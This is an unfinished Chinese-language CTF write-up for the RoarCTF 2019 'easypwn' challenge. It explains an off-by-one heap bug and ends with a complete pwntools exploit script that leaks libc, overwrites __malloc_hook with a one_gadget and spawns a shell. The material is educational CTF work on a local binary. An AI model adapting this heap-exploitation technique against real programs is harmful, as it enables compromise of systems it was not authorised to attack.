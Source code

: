 ```yaml
---
layout: post
title: "19RoarCTF"
date:   2019-10-12 19:00:00
categories: WriteUp
tags: WriteUp RoarCTF
---
```


* content
{:toc}
比赛时正好遇上作业一大堆，粗略的看了一题就去赶作业了，赛后还是来重新看一遍题目




# easypwn
```
    Arch:     amd64-64-little                                                                                          
    RELRO:    Full RELRO                                                                                               
    Stack:    Canary found                                                                                             
    NX:       NX enabled                                                                                               
    PIE:      PIE enabled
```
防护全开
反编译看一下

![图片](https://uploader.shimo.im/f/jj7Vi0RS28Mu5Vdp.png!thumbnail)

标准菜单框架

然后又是愉快的逆结构体时间

这里就省略分析过程

```
struct note
{
  int inuse;
  int size;
  char *content;
}
```
![图片](https://uploader.shimo.im/f/3lJTRVXx9hkjDAhf.png!thumbnail)

![图片](https://uploader.shimo.im/f/ohsQTbMsvZEwjrbO.png!thumbnail)

我们可以看到create的功能只初始化了新chunk，并未往content写东西

然后简单审计过后就能发现有个很僵硬的漏洞

![图片](https://uploader.shimo.im/f/mnrLbOp5t5EMBjwY.png!thumbnail)

在往chunk_content内写东西时的size是cmp_min的返回值，而问题就出在cmp_min里

![图片](https://uploader.shimo.im/f/BDqW1RPx5HIeSvgl.png!thumbnail)这里僵硬在于这个额外多出的if，本来猜测可能是想输入的size是带'\n'的但发现这也不对就hen尬

总结下现在得到的可利用点

1.最大可创建size=0x100的chunk

2.edit存在offbyone漏洞

3.菜单选择用的scanf

那么先尝试利用off by one泄露出libc

![图片](https://uploader.shimo.im/f/3oLNBqRr7Scnt8ZZ.png!thumbnail)


这里有个细节是它没有用malloc创建堆而是calloc，但没必要去纠结，因为触发malloc_hook的不是这里的malloc

![图片](https://uploader.shimo.im/f/gzXbIS07Uy4a3463.png!thumbnail)


接着就是很直接的，uaf改fd到malloc_hook后把malloc_hook改成one_gadget再用doublefree报错里的malloc触发getshell

```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./easy_pwn')
elf = ELF('./easy_pwn')
libc = elf.libc
def choice(idx):
	n.recvuntil('choice: ')
	n.sendline(str(idx))


def new(size):
	choice(1)
	n.recvuntil('size: ')
	n.sendline(str(size))


def write(idx,size,content):
	choice(2)
	n.recvuntil('index: ')
	n.sendline(str(idx))
	n.recvuntil('size: ')
	n.sendline(str(size))
	n.recvuntil('content:')
	n.send(content)


def free(idx):
	choice(3)
	n.recvuntil('index: ')
	n.sendline(str(idx))


def show(idx):
	choice(4)
	n.recvuntil('index: ')
	n.sendline(str(idx))


new(0x18)#0
new(0x18)#1
new(0x68)#2
new(0x10)#3
write(0,0x18+10,'a'*0x18+'\x91')
#gdb.attach(n)
free(1)
new(0x18)#1|2
show(2)
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c4b78
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase +0xf02a4 
#gdb.attach(n)
free(1)
new(0x68)
free(2)
write(1,0x8,p64(malloc_hook-0x18+5))
new(0x68)
new(0x68)
write(4,0x10+3,'aaa'+p64(one_gadget)*2)
free(2)
free(1)
n.interactive()
```
continue……
